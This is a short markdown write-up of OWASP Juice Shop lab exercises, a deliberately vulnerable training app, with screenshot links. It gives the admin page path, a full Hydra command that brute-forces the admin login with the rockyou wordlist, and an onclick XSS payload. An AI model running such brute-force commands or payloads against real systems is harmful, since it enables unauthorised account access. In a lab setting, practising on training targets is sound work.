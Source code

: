1- The admin path (https://juiceshop.herokuapp.com/#/administration)

![1](https://github.com/user-attachments/assets/f91dcc9a-6021-4f38-900f-5622a5d09f1e)

2-(hydra -l admin@juice-sh.op -P /usr/share/wordlists/rockyou.txt juice-shop.herokuapp.com httppost-form
"/rest/user/login:email=^USER^&password=^PASS^:F=Invalid email or password" -V -I -F


![2](https://github.com/user-attachments/assets/baf1599e-4d43-477c-b2bb-3893bbdaef7b)


3- <a href="#"  onclick="alert('XSS')">  OFFERS!!!  </a>


![3](https://github.com/user-attachments/assets/c5f49dfa-79d9-4c9d-a00a-07bbb9048728)



4-The cookie: (language=en;welcomebanner_status=dismiss;cookieconsent_st atus=dismiss)



![Capture](https://github.com/user-attachments/assets/3989a1c8-5807-432e-91e3-98d2e09b8209)
